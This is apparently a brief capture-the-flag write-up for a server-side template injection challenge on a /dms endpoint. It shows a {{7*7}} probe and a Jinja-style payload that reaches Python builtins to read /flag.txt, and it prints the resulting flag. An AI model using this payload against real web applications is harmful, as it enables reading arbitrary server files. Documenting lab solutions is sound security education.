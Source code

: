 Write-up:

1. Challenge induces us to attempt SSTI in /dms using parameter key.
`key={{7*7}}` shows code execution.

1. Assuming the flag would be at `/flag.txt`, I attempted: <br>

    `GET /dms?key={{config.from_object.__globals__['__builtins__'].open('/flag.txt').read()}}` <br>
    
    This returned the flag: `CRHC{w0w_u_rc3_m3_s0_34si1y_b89ew32f47r2}`